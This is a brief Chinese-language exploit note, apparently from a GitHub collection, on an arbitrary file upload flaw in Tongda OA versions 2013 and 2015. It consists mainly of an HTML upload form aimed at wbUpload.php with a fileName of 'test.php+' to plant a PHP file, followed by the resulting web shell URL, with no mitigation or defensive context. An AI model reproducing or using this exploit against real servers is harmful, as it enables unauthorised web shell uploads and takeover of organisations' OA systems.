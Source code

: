 ## 通达oa 任意⽂件上传漏洞

### 漏洞影响

2013、2015版本

### 复现过程

EXP:

```html
<form enctype="multipart/form-data" action="http://0-sec.org/general/vmeet/wbUpload.php?fileName=test.php+" method="post">
<input type="file" name="Filedata" size="50"><br>
<input type="submit" value="Upload">
</form>
```

上传jpg之后shell地址为

`http://url/general/vmeet/wbUpload/test.php`